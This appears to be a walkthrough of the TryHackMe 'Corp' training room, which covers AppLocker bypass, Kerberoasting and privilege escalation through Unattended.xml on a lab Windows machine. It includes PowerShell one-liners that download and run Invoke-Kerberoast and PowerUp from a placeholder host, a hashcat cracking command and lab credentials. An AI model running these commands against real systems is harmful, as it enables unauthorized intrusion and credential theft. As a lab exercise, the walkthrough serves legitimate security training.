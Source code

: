 # [Corp](https://tryhackme.com/r/room/corp)

![Corp](./images/Corp.png)

Bypass Windows Applocker and escalate your privileges. You will learn about kerberoasting, evading AV, bypassing applocker and escalating your privileges on a Windows system.

## Task 1 - Deploy the Windows machine

In this room, you will learn the following:

1. Windows Forensics
2. Basics of kerberoasting
3. AV Evading
4. Applocker

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

### Answer the questions below

Deploy the windows machine, you will be able to control this in your browser. However if you prefer to use your own RDP client, the credentials are below.

Username: `corp\dark`
Password: `_QuejVudId6`

## Task 2 - Bypassing Applocker

![task2-logo](./images/task2-logo.png)

AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, publisher, and hash.

You will have noticed that with the deployed machine, you cannot execute your binaries, and certain functions on the system will be restricted.

### Answer the questions below

There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: `C:\Windows\System32\spool\drivers\color` - This is whitelisted by default. 

* Go ahead and use PowerShell to download an executable of your choice locally, place it in the whitelisted directory and execute it.

Just like Linux bash, Windows Powershell saves all previous commands into a file called **ConsoleHost_history**. This is located at `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

* Access the file and obtain the flag.

## Task 3 - Kerberoasting

![task3-logo](./images/task3-logo.png)

It is important you understand how Kerberous actually works in order to know how to exploit it. Watch the video below.

<iframe frameborder="0" src="//www.youtube.com/embed/LmbP-XD1SC8?start=30" width="640" height="360" class="note-video-clip"></iframe>

Kerberos is the authentication system for Windows and Active Directory networks. There are many attacks against Kerberos, in this room we will use a Powershell script to request a service ticket for an account and acquire a ticket hash. We can then crack this hash to get access to another user account!
Answer the questions below

Lets first enumerate Windows. If we run `setspn -T medin -Q */*` we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Running that command, we find an existing SPN. What user is that for?

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).

```
powershell -ep bypass;
iex(New-Object Net.WebClient).DownloadString('https://YOUR_IP/Kerberoast.ps1') 
```

Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat |fl`

You should get a SPN ticket.

![task3-hascat](./images/task3-hascat.png)

Lets use hashcat to bruteforce this password. The type of hash we're cracking is **Kerberos 5 TGS-REP etype 23** and the hashcat code for this is **13100**.

```
hashcat -m 13100 -a 0 hash.txt wordlist --force
```

Crack the hash. What is the users password in plain text?

Login as this user. What is his flag?

## Task 4 - Privilege Escalation

![task4-logo](./images/task4-logo.png)

We will use a PowerShell enumeration script to examine the Windows machine. We can then determine the best way to get Administrator access.

### Answer the questions below

We will run [PowerUp1.ps1](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) into memory for enumerating any weakness to abuse for local privilege escalation.

```
powershell -ep bypass;
iex​(New-Object Net.WebClient).DownloadString('http://YOUR_IP/PowerUp.ps1') 
```

The script has identified several ways to get Administrator access. The first being to bypassUAC and the second is UnattendedPath. We will be exploiting the UnattendPath way.

"Unattended Setup is the method by which original equipment manufacturers (OEMs), corporations, and other users install Windows NT in unattended mode." Read more about it [here](https://support.microsoft.com/en-us/topic/77504e1d-2b75-5be1-3eef-cec3617cc461).

It is also where users passwords are stored in base64 encoding. Navigate to `C:\Windows\Panther\Unattend\Unattended.xml`.

![task4-xml](./images/task4-xml.png)

* What is the decoded password?

* Now we have the Administrator's password, login as them and obtain the last flag.